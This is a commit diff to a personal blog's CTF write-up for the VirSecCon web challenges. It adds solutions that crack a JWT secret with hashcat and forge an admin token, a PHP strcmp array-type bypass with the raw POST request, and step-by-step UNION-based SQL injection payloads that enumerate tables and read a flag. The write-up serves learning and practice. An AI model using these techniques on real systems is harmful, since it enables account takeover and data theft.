

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-virseccon-web-challenges-ctf.md, in a window 1280 px wide and 1400 px high, scrolled down 3539 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2020-04-5-virseccon-web-challenges-ctf.md

````diff
--- a/_posts/2020-04-5-virseccon-web-challenges-ctf.md
+++ b/_posts/2020-04-5-virseccon-web-challenges-ctf.md
@@ -145,7 +145,7 @@ app.config.from_object(__name__)
 app.secret_key = 'LLS{server_side_template_injection_unmasked}'
 
 
-@app.route('/', methods = ["GET", "POST"])
+##app.route('/', methods = ["GET", "POST"])
 def index():
 
     mask = "... you have not yet taken off your mask!"
@@ -162,3 +162,153 @@ if ( __name__ == "__main__" ):
 ```
 
 We can find the flag: `LLS{server_side_template_injection_unmasked}`
+
+### JaWT : Web Challenge
+
+From the name, it was obvious that we are dealing with `JWT` vulnerability. There is also another hint were mention `john`. So lets create a new user and capture the `jwt` and crack it with `hashcat`
+
+Here is :
+```
+eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o
+```
+
+Lets crack it with `hashcat` because why not
+```sh
+yas3r@linux[~/CTF/VirSecCon]$ hashcat -m 16500 jwt.hash /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt
+```
+
+```sh
+eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o:fuckit
+```
+
+The secret=`fuckit`
+
+Now lets use jwt the online tool [here](https://jwt.io/#debugger-io?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.qfSqP1u-gAhG6r8Vfb31Fi5WkjYCxjRKhFEcLCde8O0).
+
+by changing the user to `admin` and put the secret as `fuckit` and then resend it the server to see we are logged in as `admin`. Then, you will see the flag.
+
+Flag `LLS{jawt_was_just_what_you_thought}`
+
+
+
+### PHPJuggler : Web Challenge
+
+give a source code
+```php
+<?php
+
+    include('flag.php');
+
+    if ( isset($_POST['flag']) ){
+        if ( strcmp( $_POST['flag'], $flag ) == 0 ){
+            echo("You got it! That's the correct flag! <br>");
+            echo($flag);
+        }else{
+            echo("NOPE! Wrong flag.");
+        }
+        echo ("<br><br>");
+    }
+
+    highlight_file(__FILE__);
+?>
+
+<html>
+<head> <title> PHP Juggler </title> </head>
+    <body>
+    <br><br>
+    <form action="#" method="POST">
+        <p> Tell me the flag. </p>
+        <input type="text" name="flag">
+        <input type="submit" value="Submit">
+    </form>
+</html>
+```
+
+we can see it been used `strcmp` to compare to value to `0`. This one is also an old vulnerability in `PHP`. By changing the parameter to array it will send type array which is read by `PHP` as `zero`
+
+```
+POST / HTTP/1.1
+
+Host: jh2i.com:50030
+
+User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
+
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
+
+Accept-Language: en-US,en;q=0.5
+
+Accept-Encoding: gzip, deflate
+
+Connection: close
+
+Upgrade-Insecure-Requests: 1
+
+Content-Type: application/x-www-form-urlencoded
+
+Content-Length: 0
+
+
+
+flag[]=0
+```
+
+and here is the responds,
+
+```
+Warning: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 6
+You got it! That's the correct flag!
+LLS{php_dropped_the_ball_again}
+```
+
+
+
+### Sequelitis : Web Challenge
+
+Here is a classic `SQL injection`
+
+to show all customers: `' or 1=1#;`
+Union statement : `' union select 1,2,3#;`
+
+then we found we have three databases:
+```
+1 information_schema: 3
+1 mysql: 3
+1 performance_schema: 3
+1 sequelitis: 3
+```
+Lets check the tables of `sequelitis`
+```sh
+'+union+select+1,table_name,3+from+information_schema.tables+where+table_schema%3d'sequelitis'%23%3b
+
+<pre>
+Customers returned are:
+
+1 customers: 3
+1 flag: 3
+
+</pre>
+```
+Now lets check columns name:
+
+```sh
+'+union+select+1,column_name,3+from+information_schema.columns+where+table_name%3d'flag'%23%3b
+
+<pre>
+Customers returned are:
+
+1 value: 3
+
+</pre>
+```
+
+Lets read the flag
+```sh
+first_name='+union+select+1,value,3+from+flag%23%3b
+<pre>
+Customers returned are:
+
+1 LLS{explicit_sqli_is_how_sql_will_die}: 3
+
+</pre>
+
+```
````
